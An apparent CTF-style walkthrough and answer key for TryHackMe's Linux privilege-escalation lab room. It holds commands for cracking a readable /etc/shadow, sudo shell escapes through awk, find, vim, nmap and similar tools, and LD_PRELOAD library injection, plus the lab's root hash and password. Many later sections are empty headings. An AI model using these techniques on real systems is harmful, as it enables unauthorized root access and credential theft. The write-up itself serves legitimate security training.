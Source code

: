 ![Windows PrivEsc Banner](https://i.imgur.com/RuMC2vG.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/linuxprivesc/Linux_Priv_Esc_Cover.png" alt="Linux PrivEsc Logo">
</p>

# Linux PrivEsc

This guide contains the answer and steps necessary to get to them for the [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) room.

## Table of contents

- [Deploy the Vulnerable Debian VM](#deploy-the-vulnerable-debian-vm)
- [Service Exploits](#service-exploits)
- [Weak File Permissions - Readable /etc/shadow](#weak-file-permissions---readable-etcshadow)
- [Weak File Permissions - Writable /etc/passwd](#weak-file-permissions---writable-etcshadow)
- [Sudo - Shell Escape Sequences](#sudo---shell-escape-sequences)
- [Sudo - Environment Variables](#sudo---environment-variables)
- [Cron Jobs - File Permissions](#cron-jobs---file-permissions)
- [Cron Jobs - PATH Environment Variable](#cron-jobs---path-environment-variable)
- [Cron Jobs - Wildcards](#cron-jobs---wildcards)
- [SUID / SGID Executables - Known Exploits](#suid--sgid-executables---known-exploits)
- [SUID / SGID Executables - Shared Object Injection](#suid--sgid-executables---shared-object-injection)
- [SUID / SGID Executables - Environment Variables](#suid--sgid-executables---environment-variables)
- [SUID / SGID Executables - Abusing Shell Features (#1)](#suid--sgid-executables---abusing-shell-features-1)
- [SUID / SGID Executables - Abusing Shell Features (#2)](#suid--sgid-executables---abusing-shell-features-2)
- [Passwords & Keys - History Files](#passwords--keys---history-files)
- [Passwords & Keys - Config Files](#passwords--keys---config-files)
- [Passwords & Keys - SSH Keys](#passwords--keys---ssh-keys)
- [NFS](#nfs)
- [Kernel Exploits](#kernel-exploits)
- [Privilege Escalation Scripts ](#privilege-escalation-scripts)

### Deploy the Vulnerable Debian VM

**Username:** user

**Password:** password321

https://www.exploit-db.com/exploits/1518

### Service Exploits

*Read and follow along with the above.*

### Weak File Permissions - Readable /etc/shadow

ssh user@10.10.42.225
ls -lh /etc/shadow
cat /etc/shadow
su -u root
hashcat -m 1800 password.hash /usr/share/wordlists/rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt password.hash


1. What is the root user's password hash?

   

   ><details><summary>Click for answer</summary>$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0</details>

2. What hashing algorithm was used to produce the root user's password hash?

   

   ><details><summary>Click for answer</summary>sha512crypt</details>

3. What is the root user's password?

   

   ><details><summary>Click for answer</summary>password123</details>

### Weak File Permissions - Writable /etc/shadow



*Read and follow along with the above.*

### Weak File Permissions - Writable /etc/passwd

1. Run the "id" command as the newroot user. What is the result?

   ![]()

   ><details><summary>Click for answer</summary>uid=0(root) gid=0(root) groups=0(root)</details>

### Sudo - Shell Escape Sequences



1. How many programs is "user" allowed to run via sudo? 

   We can use `sudo -l` to view all the executables we can run with sudo.
   
   ![]()
   
   ><details><summary>Click for answer</summary>11</details>
   
2. One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

   After going through the entire list in GTFOBins, there is one binary that was not listed on the website.
   
   ><details><summary>Click for answer</summary>apache2</details>

We can use (https://gtfobins.github.io/) to find out how to get an elevated shell with each binary.

**awk**

```cmd
sudo awk 'BEGIN {system("/bin/sh")}'
```

![]()

**iftop**

```cmd
sudo iftop
!/bin/sh
```

![]()
   
**find**

```cmd
sudo find . -exec /bin/sh \; -quit
```

![]()

**ftp**

```cmd
sudo ftp
!/bin/sh
```

![]()

**less**

```cmd
sudo less /etc/profile
!/bin/sh
```

![]()

**man**

```cmd
sudo man man
!/bin/sh
```

![]()

**more**

```cmd
TERM= sudo more /etc/profile
!/bin/sh
```

![]()

**nano**

```cmd
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![]()

**nmap**

```cmd
sudo nmap --interactive
nmap> !sh
```

![]()

**vim**

```cmd
sudo vim -c ':!/bin/sh'
```
![]()

*Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.*

```cmd
sudo apache2 -f /etc/shadow
```

![]()

https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/

### Sudo - Environment Variables

*Read and follow along with the above.*

```cmd
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
```cmd
sudo LD_PRELOAD=/tmp/preload.so find
```

![]()

```cmd
ldd /usr/sbin/apache2
```

![]()

```cmd
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
```cmd
sudo LD_LIBRARY_PATH=/tmp apache2
```

![]()

### Cron Jobs - File Permissions
### Cron Jobs - PATH Environment Variable
### Cron Jobs - Wildcards
### SUID / SGID Executables - Known Exploits
### SUID / SGID Executables - Shared Object Injection
### SUID / SGID Executables - Environment Variables
### SUID / SGID Executables - Abusing Shell Features (#1)
### SUID / SGID Executables - Abusing Shell Features (#2)
### Passwords & Keys - History Files
### Passwords & Keys - Config Files
### Passwords & Keys - SSH Keys
### NFS
### Kernel Exploits
### Privilege Escalation Scripts 
